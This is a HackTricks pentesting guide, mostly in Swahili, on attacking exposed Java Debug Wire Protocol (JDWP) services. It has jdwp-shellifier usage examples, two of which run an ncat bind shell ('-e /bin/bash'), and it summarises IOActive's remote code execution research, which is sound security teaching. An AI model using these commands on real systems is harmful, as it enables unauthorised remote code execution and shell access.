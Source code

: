 # Pentesting JDWP - Java Debug Wire Protocol

{% hint style="success" %}
Jifunze na fanya mazoezi ya AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Jifunze na fanya mazoezi ya GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Angalia [**mpango wa usajili**](https://github.com/sponsors/carlospolop)!
* **Jiunge na** 💬 [**kikundi cha Discord**](https://discord.gg/hRep4RUj7f) au [**kikundi cha telegram**](https://t.me/peass) au **fuata** sisi kwenye **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Shiriki mbinu za hacking kwa kuwasilisha PRs kwa** [**HackTricks**](https://github.com/carlospolop/hacktricks) na [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repos za github.

</details>
{% endhint %}

<figure><img src="/.gitbook/assets/pentest-tools.svg" alt=""><figcaption></figcaption></figure>

**Mipangilio inayopatikana mara moja kwa ajili ya tathmini ya udhaifu & upimaji wa uvamizi**. Fanya pentest kamili kutoka mahali popote na zana 20+ & vipengele vinavyotoka kwenye recon hadi ripoti. Hatubadilishi wapimaji wa udhaifu - tunatengeneza zana maalum, moduli za kugundua & kutumia ili kuwapa muda wa kuchimba zaidi, kufungua shells, na kufurahia.

{% embed url="https://pentest-tools.com/?utm_term=jul2024&utm_medium=link&utm_source=hacktricks&utm_campaign=spons" %}

## Exploiting

Utekelezaji wa JDWP unategemea **ukosefu wa uthibitishaji na usimbaji** wa protokali. Kwa kawaida hupatikana kwenye **bandari 8000**, lakini bandari nyingine zinaweza kuwa. Muunganisho wa awali unafanywa kwa kutuma "JDWP-Handshake" kwenye bandari lengwa. Ikiwa huduma ya JDWP inafanya kazi, inajibu kwa kutumia string ile ile, ikithibitisha uwepo wake. Hii handshake inafanya kazi kama njia ya kutambua huduma za JDWP kwenye mtandao.

Kwa upande wa utambuzi wa mchakato, kutafuta string "jdwk" katika michakato ya Java kunaweza kuashiria kikao cha JDWP kinachofanya kazi.

Zana inayotumika ni [jdwp-shellifier](https://github.com/hugsy/jdwp-shellifier). Unaweza kuitumia na vigezo tofauti:
```bash
./jdwp-shellifier.py -t 192.168.2.9 -p 8000 #Obtain internal data
./jdwp-shellifier.py -t 192.168.2.9 -p 8000 --cmd 'ncat -l -p 1337 -e /bin/bash' #Exec something
./jdwp-shellifier.py -t 192.168.2.9 -p 8000 --break-on 'java.lang.String.indexOf' --cmd 'ncat -l -p 1337 -e /bin/bash' #Uses java.lang.String.indexOf as breakpoint instead of java.net.ServerSocket.accept
```
I found that the use of `--break-on 'java.lang.String.indexOf'` make the exploit more **stable**. And if you have the change to upload a backdoor to the host and execute it instead of executing a command, the exploit will be even more stable.

## More details

**Hii ni muhtasari wa [https://ioactive.com/hacking-java-debug-wire-protocol-or-how/](https://ioactive.com/hacking-java-debug-wire-protocol-or-how/)**. Angalia kwa maelezo zaidi.


1. **JDWP Muhtasari**:
- Ni itifaki ya mtandao ya binary inayotumia pakiti, hasa synchronous.
- Haina uthibitisho na usimbaji, hivyo inakuwa hatarini inapokuwa wazi kwa mitandao ya adui.

2. **JDWP Mkono wa Salamu**:
- Mchakato rahisi wa mkono wa salamu unatumika kuanzisha mawasiliano. Mstari wa ASCII wenye herufi 14 “JDWP-Handshake” unabadilishana kati ya Debugger (mteja) na Debuggee (server).

3. **JDWP Mawasiliano**:
- Jumbe zina muundo rahisi zikiwa na maeneo kama Urefu, Id, Bendera, na CommandSet.
- Thamani za CommandSet zinaanzia 0x40 hadi 0x80, zik representing hatua na matukio tofauti.

4. **Ushirikishaji**:
- JDWP inaruhusu kupakia na kuita madarasa na bytecode zisizo na mipaka, hivyo kuleta hatari za usalama.
- Makala inaelezea mchakato wa ushirikishaji katika hatua tano, ikihusisha kupata marejeleo ya Java Runtime, kuweka alama za kuvunja, na kuita mbinu.

5. **Ushirikishaji wa Kweli**:
- Licha ya uwezekano wa ulinzi wa firewall, huduma za JDWP zinaweza kupatikana na kuweza kushambuliwa katika hali halisi, kama inavyoonyeshwa na utafutaji kwenye majukwaa kama ShodanHQ na GitHub.
- Skripti ya ushirikishaji ilijaribiwa dhidi ya toleo mbalimbali za JDK na ni huru ya jukwaa, ikitoa Utekelezaji wa Msimbo wa K remote (RCE) wa kuaminika.

6. **Madhara ya Usalama**:
- Uwepo wa huduma za JDWP zilizo wazi mtandaoni unaonyesha hitaji la ukaguzi wa mara kwa mara wa usalama, kuzima kazi za debug katika uzalishaji, na usanidi sahihi wa firewall.


### **Marejeleo:**

* [[https://ioactive.com/hacking-java-debug-wire-protocol-or-how/](https://ioactive.com/hacking-java-debug-wire-protocol-or-how/)]
* [https://github.com/IOActive/jdwp-shellifier](https://github.com/IOActive/jdwp-shellifier)
* [http://docs.oracle.com/javase/7/docs/technotes/guides/jpda/architecture.html](http://docs.oracle.com/javase/7/docs/technotes/guides/jpda/architecture.html)
* http://www.secdev.org/projects/scapy(no longer active)
* [http://www.shodanhq.com/search?q=JDWP-HANDSHAKE](http://www.shodanhq.com/search?q=JDWP-HANDSHAKE)
* http://www.hsc-news.com/archives/2013/000109.html (no longer active)
* [http://packetstormsecurity.com/files/download/122525/JDWP-exploitation.txt](http://packetstormsecurity.com/files/download/122525/JDWP-exploitation.txt)
* https://github.com/search?q=-Xdebug+-Xrunjdwp\&type=Code\&ref=searchresults
* [http://docs.oracle.com/javase/6/docs/api/java/lang/Runtime.html](http://docs.oracle.com/javase/6/docs/api/java/lang/Runtime.html)
* [http://docs.oracle.com/javase/1.5.0/docs/guide/jpda/jdwp-spec.html](http://docs.oracle.com)
* [http://docs.oracle.com/javase/1.5.0/docs/guide/jpda/jdwp/jdwp-protocol.html](http://docs.oracle.com/javase/1.5.0/docs/guide/jpda/jdwp/jdwp-protocol.html)
* [http://nmap.org/nsedoc/scripts/jdwp-exec.html](http://nmap.org/nsedoc/scripts/jdwp-exec.html)

<figure><img src="/.gitbook/assets/pentest-tools.svg" alt=""><figcaption></figcaption></figure>

**Mpangilio wa papo hapo kwa tathmini ya udhaifu & pentesting**. Fanya pentest kamili kutoka mahali popote na zana 20+ na vipengele vinavyotoka kwa recon hadi ripoti. Hatubadilishi pentesters - tunatengeneza zana maalum, moduli za kugundua & ushirikishaji ili kuwapa muda wa kuchimba zaidi, kufungua shells, na kufurahia.

{% embed url="https://pentest-tools.com/?utm_term=jul2024&utm_medium=link&utm_source=hacktricks&utm_campaign=spons" %}

{% hint style="success" %}
Jifunze & fanya mazoezi ya AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Jifunze & fanya mazoezi ya GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Angalia [**mpango wa usajili**](https://github.com/sponsors/carlospolop)!
* **Jiunge na** 💬 [**kikundi cha Discord**](https://discord.gg/hRep4RUj7f) au [**kikundi cha telegram**](https://t.me/peass) au **fuata** sisi kwenye **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Shiriki mbinu za udukuzi kwa kuwasilisha PRs kwa** [**HackTricks**](https://github.com/carlospolop/hacktricks) na [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repos za github.

</details>
{% endhint %}
